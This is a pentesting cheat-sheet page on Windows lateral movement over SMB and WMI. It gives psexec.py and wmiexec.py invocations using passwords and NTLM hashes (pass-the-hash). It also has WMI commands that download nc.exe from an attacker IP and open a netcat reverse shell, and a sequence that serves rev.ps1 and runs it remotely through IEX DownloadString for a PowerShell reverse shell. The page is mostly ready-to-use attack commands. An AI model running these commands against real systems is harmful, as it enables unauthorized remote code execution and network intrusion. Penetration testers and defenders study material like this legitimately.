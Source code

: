 Note: always use full username when authenticating as a domain user, because if there're 2 users sharing the same name \(a local user and a domain user\), say `WORKGROUP\Administrator` and `MEGACORP\Administrator`, and you're trying to authenticate as a domain admin without providing the domain prefix, authentication will fail.

## SMB

### PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager\_rpc\_smb\_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)

#### psexec.py

```text
$ psexec.py snovvcrash:'Passw0rd!'@127.0.0.1 [powershell.exe]
$ psexec.py -hashes :6bb872d8a9aee9fd6ed2265c8b486490 snovvcrash@127.0.0.1
```

## WMI

* [https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)

### PowerShell

Basic command to check if we have privileges to execute WMI:

```text
PS > Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namesapce" | Select Name
```

Execute commands:

```text
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```

### wmiexec.py

```text
$ wmiexec.py -codec cp866 snovvcrash:'Passw0rd!'@127.0.0.1
$ wmiexec.py -hashes :6bb872d8a9aee9fd6ed2265c8b486490 snovvcrash@127.0.0.1
```

Get a PowerShell reverse-shell:

```text
$ sudo python3 -m http.server 80
$ sudo rlwrap nc -lvnp 443
$ wmiexec.py -nooutput snovvcrash:'Passw0rd!'@10.10.13.38 "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')"
```
